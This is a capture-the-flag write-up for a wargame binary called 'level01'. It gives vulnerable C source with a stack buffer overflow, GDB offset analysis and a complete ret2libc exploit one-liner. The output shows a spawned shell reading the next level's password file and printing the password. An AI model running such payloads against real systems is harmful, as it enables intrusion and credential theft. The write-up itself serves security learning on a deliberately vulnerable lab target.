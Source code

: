 # Level01

## Answer
Our C source code generates almost the same assembly code as the original binary. Compile it as follows:
> There is a slight difference in the assembly code as mentioned in the comments. Nonetheless, it doesn't change the program's behavior
```
gcc -fno-stack-protector -m32 -z execstack source.c
```

Let's take a look at the source code:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char a_user_name[256];

int verify_user_name()
{
    puts("verifying username....\n");
    return strncmp(a_user_name, "dat_wil", 7);
}

int verify_user_pass(char *a_user_pass)
{
    return strncmp(a_user_pass, "admin", 5);
}

// line differences on main+11 and main+15 (extra use of eax)
int main()
{
    char buf[64]; // 0x1c(%esp)
    int ret; // 0x5c(%esp)

    memset(buf, 0, 64);
    ret = 0;

    puts("********* ADMIN LOGIN PROMPT *********");

    printf("Enter Username: ");
    fgets(a_user_name, 256, stdin);
    ret = verify_user_name();
    if (ret != 0)
    {
        puts("nope, incorrect username...");
        return 1;
    }

    puts("Enter Password: ");
    fgets(buf, 100, stdin);
    ret = verify_user_pass(buf);
    if (ret == 0 || ret != 0)
    {
        puts("nope, incorrect password...");
        return 1;
    }

    return 0;
}
```

Let's focus on the `main` function. It reads input using the `fgets` function, which is known to be safe as it has a mechanism to limit the number of bytes read. However we're reading 100 bytes in `buf` which only has 64 bytes allocated on the stack. This will allow us to overflow the buffer and overwrite the return address of the `main` function.

Let's analyze the stack layout of our program:
```bash
(gdb) b *main+226 # Breaking before leave and pop instructions
Breakpoint 1 at 0x80485b2

(gdb) r # Run the program
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username:
verifying username....

nope, incorrect username...


Breakpoint 1, 0x080485b2 in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xffffd6a0       0xffffd6a0
ebp            0xffffd708       0xffffd708
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 104 bytes:
```
0xffffd708 - 0xffffd6a0 = 68 (104 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x1c(%esp),%eax`. Since there is 104 bytes for the stack, our buffer will therefore require 76 bytes (104 - 28) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 80 bytes (76 + 4).
> If you're struggling, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However, it is recommended to understand the stack layout and how to calculate the offset yourself.

Anything written beyond those 80 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There are different ways to solve this challenge, we'll only cover the `ret2libc` method.
> When we refer to padding, we mean the bytes we need to write before reaching the return address.

### Ret2libc

#### Explanation
Ret2Libc (Return-to-Libc) is an exploit technique that redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"
```
> The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.

#### Exploit
We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xf7e6aed0  system
[...]

# Exit
(gdb) info function exit
0xf7e5eb70  exit
[...]

# /bin/sh
(gdb) info proc mappings
[...]
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
[...]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*80 + "\xf7\xe6\xae\xd0" + "\xf7\xe5\xeb\x70" + "\xf7\xf8\x97\xec"
```

Here's the complete exploit:
```python
(python -c 'print("dat_wil"); print("\x90"*80+"\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat)| ./level01
```
> We also have to provide the username `dat_wil` to pass the first check from the `verify_user_name` function.

Let's run it:
```bash
(python -c 'print("dat_wil"); print("\x90"*80+"\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat)| ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

We are now level02! Let's move on to the next level.